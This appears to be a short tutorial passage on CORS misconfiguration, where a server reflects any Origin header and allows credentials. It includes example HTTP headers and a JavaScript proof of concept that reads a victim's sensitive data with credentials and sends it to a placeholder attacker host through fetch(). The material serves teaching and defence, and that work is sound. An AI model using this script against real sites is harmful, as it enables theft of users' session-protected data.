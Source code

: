 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. So if an attacker adds an `Origin` header to a request or modifies its value like the following:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker-owned-website.com
Cookie: sessionid=...
```
The server will then send a response:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker-owned-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`attacker-owned-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-website.com";

xhr.onreadystatechange = function () {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText);
	};
};
xhr.open("GET", url + "/sensitiveData", true);
xhr.withCredentials = true;
xhr.send(null);
```